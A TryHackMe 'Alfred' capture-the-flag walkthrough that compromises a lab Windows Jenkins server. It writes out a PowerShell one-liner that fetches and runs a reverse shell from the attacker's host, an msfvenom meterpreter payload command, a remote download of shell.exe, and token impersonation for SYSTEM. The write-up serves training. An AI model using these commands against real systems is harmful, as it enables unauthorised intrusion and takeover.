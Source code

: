 ```yaml
---
title: "TryHackMe - Alfred"
author: Nasrallah
description: ""
date: 2022-05-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, easy, jenkins, powershell, metasploit, msfvenom, meterpreter]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Alfred](https://tryhackme.com/room/alfred) from [TryHackMe](https://tryhackme.com). Easy windows machine running Jenkins in a webserver. We use some known credentials to login to Jenkins and run some command that would give us a reverse shell. After that we generate a payload using msfvenom and upload it to the target to get a meterpreter shell that would make it easy to escalate our privileges on the machine.

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Bash
Nmap scan report for 10.10.209.108
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  tcpwrapped
|_ssl-date: 2022-06-03T08:50:54+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2022-06-02T08:38:17
|_Not valid after:  2022-12-02T08:38:17
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We got 3 ports open, webserver on port 80, probably rdp on port 3389, and another webserver on port 8080.

## Web

Let's go to the webserver on port 80.

![](/assets/img/tryhackme/alfred/1.png)

There is a picture of Bruce Wayne and some text, nothing really interesting.

Let's go to port 8080.

![](/assets/img/tryhackme/alfred/2.png)

It's Jenkins login page. If we some of the most used credentials, we'll be able to login successfully.

![](/assets/img/tryhackme/alfred/3.png)



# **Foothold**

We need to find a place where we can execute command. To do that, go to `project`.

![](/assets/img/tryhackme/alfred/4.png)

Now go to `configure`.

![](/assets/img/tryhackme/alfred/5.png)

Great! We found a place to execute windows batch commands. Time for a reverse shell.

First, we need to download this [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and serve it with a webserver, we can use python for that: `sudo python3 -m http.server 80`.

After that, we need to set up a listener to receive the shell: `nc -lvnp 9001`

![](/assets/img/tryhackme/alfred/6.png)

Now we need to put the following powershell command in place and run it.

```Powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.31.131:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.31.131 -Port 9001
```
>Change the ip addresses to yours(tun0)

![](/assets/img/tryhackme/alfred/21.png)


After entering the command, press `save`. Then go to `Build now`

![](/assets/img/tryhackme/alfred/20.png)

Now if we go to our listener, we should see that we have received a shell.

![](/assets/img/tryhackme/alfred/7.png)


# **Privilege Escalation**

For this part, we can upgrade our shell to meterpreter in order to easily escalate our privileges.

First, let's create a payload using `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.31.131 LPORT=1234 -f exe -o shell.exe
```
>Don't forget to change the ip address.

![](/assets/img/tryhackme/alfred/8.png)

Good, let's fire up metasploit and setup a handler listener.

![](/assets/img/tryhackme/alfred/9.png)

We need to set the options to the same ones we used when we created the payload with `msfvenom`

Great! Now in the same directory where we created the exploit, set up an http server like the one we did before:`sudo python3 -m http.server 80` so that we can upload it to the target.

After that we need to execute the following powershell command in the shell we just got to upload the exploit.

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.31.131/shell.exe','shell.exe')"
```

![](/assets/img/tryhackme/alfred/22.png)

Great! We have uploaded the exploit successfully, now execute it with the command `Start-Process "shell.exe"`

![](/assets/img/tryhackme/alfred/10.png)

Now if we go to our listener on metasploit, we can see that we received a meterpreter shell.

![](/assets/img/tryhackme/alfred/11.png)

Now to have system privileges, which is the higher ranking in a windows machine, we execute the command `getsystem`.

![](/assets/img/tryhackme/alfred/12.png)

And we got it, but we need to understand how that worked. To do that, first drop a shell using the command `shell`, and then execute `whoami /priv`
> Do that as the user alfred not authority\system.

![](/assets/img/tryhackme/alfred/13.png)

With that command, we can see the different tokens we have. One of the tokens we have is `SeImpersonatePrivilege`. To abuse that, let's load a module named `incognito` and run the command `impersonate_token "BUILTIN\Administrators"`

![](/assets/img/tryhackme/alfred/14.png)

We got system privileges. Now let's go to the directory where the flag is and read it.

![](/assets/img/tryhackme/alfred/15.png)

We can't, even though we have the higher privileged token. To solve that, we need to change the process we currently in to a process that has system privilege.

First, list the processes with `ps`.

![](/assets/img/tryhackme/alfred/16.png)

We choose the **services** process, now use the command `migrate` with the process number of **services**.

![](/assets/img/tryhackme/alfred/17.png)

And we that, we have successfully rooted **Alfred**.
---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1